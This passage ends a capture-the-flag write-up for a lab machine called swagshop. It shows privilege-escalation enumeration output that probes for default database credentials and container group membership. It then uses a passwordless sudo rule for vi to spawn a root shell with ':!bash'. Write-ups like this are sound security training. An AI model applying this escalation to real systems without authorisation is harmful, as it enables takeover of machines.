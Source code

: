 ```
[i] pro500 Running processes............................................... skip
[i] pro510 Running process binaries and permissions........................ skip
===============================================================( software )=====
[!] sof000 Can we connect to MySQL with root/root credentials?............. nope
[!] sof010 Can we connect to MySQL as root without password?............... nope
[!] sof020 Can we connect to PostgreSQL template0 as postgres and no pass?. nope
[!] sof020 Can we connect to PostgreSQL template1 as postgres and no pass?. nope
[!] sof020 Can we connect to PostgreSQL template0 as psql and no pass?..... nope
[!] sof020 Can we connect to PostgreSQL template1 as psql and no pass?..... nope
[*] sof030 Installed apache modules........................................ yes!
[!] sof040 Found any .htpasswd files?...................................... nope
[i] sof500 Sudo version.................................................... skip
[i] sof510 MySQL version................................................... skip
[i] sof520 Postgres version................................................ skip
[i] sof530 Apache version.................................................. skip
=============================================================( containers )=====
[*] ctn000 Are we in a docker container?................................... nope
[*] ctn010 Is docker available?............................................ nope
[!] ctn020 Is the user a member of the 'docker' group?..................... nope
[*] ctn200 Are we in a lxc container?...................................... nope
[!] ctn210 Is the user a member of any lxc/lxd group?...................... nope

==================================( FINISHED )==================================
```

There's a thing that catched my attention immediately:  
```
ser www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```
because I know that I can [spawn shells within vi](http://web.physics.ucsb.edu/~pcs/apps/editors/vi/vi_unix.html)!  
So it's a matter of running `sudo vi /var/www/html/LICENSE.txt` and then `:!bash`. *Root*  

An interesting thing is that it'll tell you that you can use the root flag as password for their real beta swag shop ^^